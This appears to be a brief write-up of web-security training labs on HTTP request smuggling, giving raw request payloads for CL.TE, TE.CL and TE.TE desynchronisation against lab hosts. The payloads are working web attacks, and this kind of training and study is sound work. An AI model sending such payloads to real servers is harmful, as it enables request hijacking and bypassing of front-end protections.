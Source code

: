 # Request Smuggling
1. This lab has a CL.TE vulnerability, so the front end uses content-length while the back end uses transfer encoding. As a result, sending a POST request with the following headers/body can modify the next request via smuggling:
```
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
2. This lab has a TE.CL vulnerability, which is the opposite of the previous lab. The following POST request can smuggle headers onto the next request (the 2 trailing newlines are required):
```
POST / HTTP/1.1
Host: acce1fb41fedeb49c0f6233c0074002d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
3. This lab has a TE.TE vulnerability, where one of the servers will ignore a malformed `Transfer-Encoding` header and the other will not. As a result, the following payload can smuggle headers onto the next request:
```
POST / HTTP/1.1
Host: ac8b1f1b1e21f6d0c0c894d5002800e2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: x

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
